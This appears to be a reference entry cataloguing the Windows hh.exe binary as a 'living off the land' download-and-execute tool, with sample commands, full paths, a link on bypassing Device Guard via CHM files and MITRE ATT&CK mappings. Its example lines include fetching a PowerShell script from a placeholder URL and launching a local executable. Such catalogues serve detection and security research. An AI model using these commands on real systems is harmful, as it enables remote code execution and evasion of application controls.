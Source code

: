 ## hh.exe

* Functions: Download, Execute

```
HH.exe http://www.google.com      

HH.exe C:\    

HH.exe c:\windows\system32\calc.exe    

HH.exe http://some.url/script.ps1    
```

Acknowledgements:
* Oddvar Moe - @oddvarmoe

Code sample:
* 

Resources:
* https://oddvar.moe/2017/08/13/bypassing-device-guard-umci-using-chm-cve-2017-8625/

Full path:
```
c:\windows\system32\hh.exe
c:\windows\sysWOW64\hh.exe
```

Notes:



 
MITRE ATT&CK:
* [Indirect Command Execution](https://attack.mitre.org/wiki/Technique/T1202)
* [Remote File Copy](https://attack.mitre.org/wiki/Technique/T1105)
